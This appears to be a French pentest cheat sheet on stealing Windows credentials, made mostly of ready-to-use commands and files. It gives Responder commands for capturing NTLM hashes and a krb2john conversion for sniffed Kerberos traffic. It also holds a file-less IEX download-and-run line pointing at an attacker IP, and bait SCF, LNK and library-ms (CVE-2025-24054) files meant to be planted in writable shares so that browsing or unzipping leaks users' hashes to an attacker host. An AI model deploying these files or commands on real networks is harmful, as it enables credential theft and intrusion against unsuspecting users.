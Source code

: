 
- [[#Capture du hash NTLM]]
- [[#Sniffing Wireshark / Net-Creds]]
- [[#Process Command Lines]]
- [[#SCF Files (Shell Command File) (Pre 2019)]]
- [[#LNK Files (Pre / Post 2019)]]
- [[#Library-MS Files (CVE-2025-24054)]]


---
# Capture du hash NTLM

Si besoin de récupérer le hash de l'utilisateur actuel

1. Lancer responder pour capturer les hash

```shell
sudo responder -wrf -v -I tun0
```

2. Pointer vers le partage SMB depuis la cible

```
\\<ip-attacker>\share\
```



---
# Sniffing Wireshark / Net-Creds


Lancer Wireshark / Tcpdump afin de capturer le trafic.

/

Lancer net-creds afin de capturer le trafic et d'identifier tous les identifiants en clair https://github.com/DanMcInerney/net-creds

Si authent kerberos capturée, possible de mettre au format john.

d'abord mettre le pcap au format pdml avec tshark.

```
tshark -r  WS-01_PktMon.pcap -T pdml > output.pdml
```

puis krb2john

```
$ krb2john output.pdml
```

attention au realm qui peut ne pas être au bon format (domain au lieu de domain.local)




---

# Process Command Lines

> [!TIP]
> Identifier les taches planifiés / processus exécutés en lignes de commandes et peut reveler mots de passe en clair.


Script Powershell qui check en direct toutes les 2 secondes

```shell
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

run en file-less

```powershell-session
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```



---

# SCF Files (Shell Command File) (Pre 2019)

> [!TIP]
> Un fichier SCF permet d'éxécuter des commandes windows, il est possible de faire pointer l'icone du fichier vers un UNC path et donc capturer les hash NTLM avec Responder en pointant vers notre partage. Le fichier est automatiquement executé lorsqu'un user consulte le dossier dans lequel il se trouve.

> [!TIP]
> A placer dans un share writable

@Inventory.scf

```shell
[Shell]
Command=2
IconFile=\\<ip-attacker>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

1. Créer le fichier ci-dessus et le placer dans un partage utilisé par les utilisateurs.

2. Lancer responder pour capturer les hash

```shell
sudo responder -wrf -v -I tun0
```



---

# LNK Files (Pre / Post 2019)

> [!tip]
> Similaire aux fichiers SCF

> [!TIP]
> A placer dans un share writable


Script Powershelll pour créer le fichier .lnk

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

ou

https://github.com/dievus/lnkbomb

2. Lancer responder pour capturer les hash

```shell
sudo responder -w -v -I tun0
```

---

# Library-MS Files (CVE-2025-24054)

> [!tip]
> Similaire aux LNK et SCF


1. fichier .library-ms

```bash
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\<ip_attacker>\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```


2. Compresser le fichier dans un rar/zip

3. Lancer responder pour capturer les hash

```shell
sudo responder -wrf -v -I tun0
```

4. Capture du hash à la decompression